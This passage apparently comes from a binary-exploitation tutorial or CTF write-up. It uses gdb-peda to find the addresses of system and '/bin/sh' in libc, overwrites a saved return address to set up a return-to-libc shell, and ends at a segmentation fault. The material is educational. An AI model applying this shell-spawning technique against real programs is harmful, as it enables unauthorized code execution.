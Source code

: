 ```
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x27000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x28000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
gdb-peda$ search
search     searchmem  
gdb-peda$ searchmem "/bin/sh" 0x7ffff79e4000     0x7ffff7bcb000
Searching for '/bin/sh' in range: 0x7ffff79e4000 - 0x7ffff7bcb000
Found 1 results, display max 1 items:
libc : 0x7ffff7b97e9a --> 0x68732f6e69622f ('/bin/sh')
gdb-peda$ p system
$1 = {int (const char *)} 0x7ffff7a33440 <__libc_system>
```

So the location of `system` is `0x7ffff7a33440`. And `/bin/sh` is located at `0x7ffff7b97e9a`


```
gdb-peda$ set {long long int} 0x7fffffffdf48 = 0x7ffff7a33440
gdb-peda$ set $rdi = 0x7ffff7b97e9a
```
After setting the values, we can check where does gdb think we should return to

```
gdb-peda$ bt
#0  0x000000000040066c in main ()
#1  0x00007ffff7a33440 in ?? () at ../sysdeps/unix/sysv/linux/system.c:75 from /lib/x86_64-linux-gnu/libc.so.6
#2  0x0000000000000000 in ?? ()
```

And what is at that address we're about to return to?

```
gdb-peda$ disas 0x00007ffff7a33440
Dump of assembler code for function __libc_system:
   0x00007ffff7a33440 <+0>:	test   rdi,rdi
   0x00007ffff7a33443 <+3>:	je     0x7ffff7a33450 <__libc_system+16>
   0x00007ffff7a33445 <+5>:	jmp    0x7ffff7a32eb0 <do_system>
   0x00007ffff7a3344a <+10>:	nop    WORD PTR [rax+rax*1+0x0]
   0x00007ffff7a33450 <+16>:	lea    rdi,[rip+0x164a4b]        # 0x7ffff7b97ea2
   0x00007ffff7a33457 <+23>:	sub    rsp,0x8
   0x00007ffff7a3345b <+27>:	call   0x7ffff7a32eb0 <do_system>
   0x00007ffff7a33460 <+32>:	test   eax,eax
   0x00007ffff7a33462 <+34>:	sete   al
   0x00007ffff7a33465 <+37>:	add    rsp,0x8
   0x00007ffff7a33469 <+41>:	movzx  eax,al
   0x00007ffff7a3346c <+44>:	ret    
End of assembler dump.

```

We will continue execution, expecting to run `system("/bin/sh")` when we actually get hit with a segmentation fault:


[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me